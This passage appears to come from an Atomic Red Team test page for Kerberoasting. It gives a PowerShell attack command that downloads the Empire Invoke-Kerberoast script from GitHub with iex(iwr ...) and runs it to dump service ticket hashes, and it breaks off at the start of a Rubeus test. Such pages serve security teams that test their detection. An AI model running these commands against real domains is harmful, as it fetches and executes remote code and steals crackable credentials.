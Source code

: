 - [Atomic Test #6 - WinPwn - Kerberoasting](#atomic-test-6---winpwn---kerberoasting)

- [Atomic Test #7 - WinPwn - PowerSharpPack - Kerberoasting Using Rubeus](#atomic-test-7---winpwn---powersharppack---kerberoasting-using-rubeus)


<br/>

## Atomic Test #1 - Request for service tickets
This test uses the Powershell Empire Module: Invoke-Kerberoast.ps1
The following are further sources and credits for this attack:
[Kerberoasting Without Mimikatz source] (https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
[Invoke-Kerberoast source] (https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
when executed successfully , the test displays available services with their hashes. 
If the testing domain doesn't have any service principal name configured, there is no output

**Supported Platforms:** Windows


**auto_generated_guid:** 3f987809-3681-43c8-bcd8-b3ff3a28533a






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/08cbd274bef78243d7a8ed6443b8364acd1fc48b/data/module_source/credentials/Invoke-Kerberoast.ps1 -UseBasicParsing)
Invoke-Kerberoast | fl
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #2 - Rubeus kerberoast
Information on the Rubeus tool and it's creators found here: https://github.com/GhostPack/Rubeus#asreproast
This build targets .NET 4.5.  If targeting a different version you will need to compile Rubeus
